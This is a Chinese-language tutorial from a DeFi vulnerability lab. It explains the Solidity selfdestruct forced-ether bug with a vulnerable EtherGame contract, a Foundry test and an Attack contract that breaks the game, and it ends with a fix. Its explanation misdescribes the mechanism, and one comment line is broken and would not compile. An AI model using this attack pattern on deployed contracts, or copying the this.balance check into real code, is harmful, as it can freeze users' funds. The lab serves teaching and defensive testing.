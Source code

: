 # Selfdestruct

[Selfdestruct.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Selfdestruct.sol)  

**名称：** 自毁漏洞  

**描述：**    
EtherGame合约的代码中的有一个自毁漏洞，这个漏洞允许攻击者通过EtherGame合约自毁（使用selfstruct操作码）来破坏游戏。  
该漏洞的产生是由于Attack合约中的`dos`函数在收到大量以太币后，执行自毁操作并将合约剩余的以太币全部发送给EtherGame合约。由于执行了自毁操作，EtherGame合约的功能被永久禁用，这使得任何人都无法存入以太币或者领取获胜者的奖励。


**场景：**  
1. 部署EtherGame合约  
2. 玩家（假设是Alice和Bob）决定参与游戏，并各自向EtherGame约合存入1个以太币。
3. 部署Attack合约并在构造函数中传入EtherGame合约地址
4. 调用Attack.attack发送5个以太币到EtherGame合约。这将破坏游戏，任何人都不可能成为赢家。



**发生了什么？**  
攻击者迫使EtherGame合约的余额等于7个以太币。  
现在任何人都不能向EtherGame合约存入以太币，也无法确定赢家。  
因为访问控制缺失或者不足，攻击者可以自毁合约。  
selefdestruct(address)函数会从合约地址删除所有的字节码并且发送所有的以太币到指定的合约地址。  



**解决办法：**  
不要依赖this.balance来获取存入的以太币余额，而是用一个状态变量来表示存入的总金额。  

**EtherGame 合约：**  
```solidity
contract EtherGame {
    uint public constant targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance; // vulnerable
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
**如何测试：**  
`forge test --contracts src/test/Selfdestruct.sol -vvvv`  

```
// 测试使用自毁函数的场景
function testSelfdestruct() public {
    // 记录Alice的余额
    console.log("Alice balance", alice.balance);
    // 记录Eve的余额
    console.log("Eve balance", eve.balance);

    // 记录Alice开始存款
    console.log("Alice deposit 1 Ether...");
    // 将msg.sender设置为Alice
    vm.prank(alice);
    // Alice向EtherGame合约存入1个以太币
    EtherGameContract.deposit{value: 1 ether}();

    // 记录Eve开始存款
    console.log("Eve deposit 1 Ether...");
    // 将msg.sender设置为Eve
    vm.prank(eve);
    // Eve向EtherGame合约存入1个以太币
    EtherGameContract.deposit{value: 1 ether}();

    // 记录EtherGame合约的余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );

    // 记录攻击的开始
    console.log("Attack...");
    //使用EtherGame合约作为参数创建Attack合约的新实例。
    AttackerContract = new Attack(EtherGameContract);
    // 向Attacker合约的dos函数发送5个以太币。
    AttackerContract.dos{value: 5 ether}();
    // 记录攻击后EtherGame合约的新余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );
    // 记录攻击的完成
    console.log("Exploit completed, Game is over");
    // 尝试向EtherGame合约存入1个以太币。由于合约已被销毁，此调用将失败。
    EtherGameContract.deposit{value: 1 ether}(); // 由于合约已被销毁，此调用将失败。
}

// 用于攻击EtherGame合约的合约。
contract Attack {
    // 要攻击的EtherGame合约。
    EtherGame etherGame;

    // 构造函数中设置EtherGame合约。
    constructor(EtherGame _etherGame) {
        etherGame = _etherGame;
    }

    // 执行攻击的函数
    function dos() public payable {
        // 通过发送以太币来破坏游戏，使游戏余额大于等于7个以太币 
        balance is >= 7 ether.

        // 将EtherGame合约地址转换为可支付的地址
        address payable addr = payable(address(etherGame));
        // 自毁合约，并将其余额发送到EtherGame合约
        selfdestruct(addr);
    }
}
```
**红框：** 攻击成功，游戏结束。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F1b7b4334-de84-448a-a344-646eb909fb4f%2FUntitled.png?table=block&id=ed7eeade-45f5-4ed8-a8e7-b6e940b0af07&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)